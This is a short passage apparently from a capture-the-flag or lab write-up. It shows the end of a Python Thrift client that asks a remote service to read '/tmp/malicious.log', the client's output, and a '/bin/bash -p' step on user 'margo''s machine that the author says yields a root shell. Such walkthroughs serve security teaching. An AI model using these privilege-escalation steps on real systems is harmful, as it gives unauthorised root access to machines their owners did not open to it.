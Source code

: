 ```python
		log_file_path = "/tmp/malicious.log"  
		  
		# Call the remote method ReadLogFile and get the result  
		response = client.ReadLogFile(log_file_path)  
		print("Server response:", response)  
	  
	except Thrift.TException as tx:  
		print(f"Thrift exception: {tx}")  
		  
		# Close the transport  
	transport.close()  
  
if __name__ == '__main__':  
	main()  
```

We can then run this file and we get:

```bash
python3 client.py  
Server response: Log file processed
```

and once back on `margo`'s machine we can type:

```bash
/bin/bash -p
```

and we get a root shell!!